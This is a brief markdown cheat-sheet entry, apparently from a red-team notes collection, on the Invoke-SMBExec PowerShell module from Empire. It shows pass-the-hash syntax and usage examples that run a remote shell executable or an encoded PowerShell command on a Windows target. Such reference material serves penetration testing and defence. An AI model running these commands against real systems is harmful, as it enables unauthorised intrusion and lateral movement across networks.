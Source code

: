 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - service-control-manager
  - offensive-tools
  - windows
---
```

# Scripts

## 01 - Invoke-SMBExec

### 1.1 - Syntax

```
PS C:\> Import-Module .\Invoke-SMBExec.ps1

PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain> -Username <username> -Hash <nt_hash> -Command "<commands>"
```

### 1.2 - Usage

```
PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain> -Username <username> -Hash <nt_hash> -Command "C:\path\to\remote\shell.exe"

PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain> -Username <username> -Hash <nt_hash> -Command "powershell -E <base64_encoded>"
```

---
## References

- [Invoke-SMBExec](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-SMBExec.ps1)